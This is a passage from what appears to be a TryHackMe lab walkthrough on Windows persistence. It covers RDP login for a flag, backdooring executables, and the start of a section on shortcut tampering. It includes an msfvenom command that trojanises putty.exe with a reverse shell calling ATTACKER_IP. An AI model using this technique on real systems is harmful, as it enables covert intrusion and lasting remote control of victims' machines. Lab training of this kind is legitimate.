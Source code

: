 If you did everything correctly, you should be logged in to the Administrator's desktop.&#x20;

Note: When you log in via RDP, the existing in-browser view will be disconnected. After you terminate your RDP session you can get the in-browser view back by pressing Reconnect.

![THM flag](https://tryhackme-images.s3.amazonaws.com/user-uploads/5ed5961c6276df568891c3ea/room-content/2cbaa6465407d8b45e363f24a33efec6.png)

Log in to the machine via RDP using thmuser3 and execute `C:\flags\flag3.exe` to retrieve your flag.

Once we do all that, we will get flag3:

```
THM{TRUST_ME_IM_AN_ADMIN}
```

## Backdooring Files

***

Another method of establishing persistence consists of tampering with some files we know the user interacts with regularly. By performing some modifications to such files, we can plant backdoors that will get executed whenever the user accesses them. Since we don't want to create any alerts that could blow our cover, the files we alter must keep working for the user as expected.

While there are many opportunities to plant backdoors, we will check the most commonly used ones.

### Executable Files

If you find any executable laying around the desktop, the chances are high that the user might use it frequently. Suppose we find a shortcut to PuTTY lying around. If we checked the shortcut's properties, we could see that it (usually) points to `C:\Program Files\PuTTY\putty.exe`. From that point, we could download the executable to our attacker's machine and modify it to run any payload we wanted.

You can easily plant a payload of your preference in any .exe file with `msfvenom`. The binary will still work as usual but execute an additional payload silently by adding an extra thread in your binary. To create a backdoored putty.exe, we can use the following command:

```shell-session
msfvenom -a x64 --platform windows -x putty.exe -k -p windows/x64/shell_reverse_tcp lhost=ATTACKER_IP lport=4444 -b "\x00" -f exe -o puttyX.exe
```

The resulting puttyX.exe will execute a reverse\_tcp meterpreter payload without the user noticing it. While this method is good enough to establish persistence, let's look at other sneakier techniques.

#### Shortcut Files

If we don't want to alter the executable, we can always tamper with the shortcut file itself. Instead of pointing directly to the expected executable, we can change it to point to a script that will run a backdoor and then execute the usual program normally.

For this task, let's check the shortcut to **calc** on the Administrator's desktop. If we right-click it and go to properties, we'll see where it is pointing:
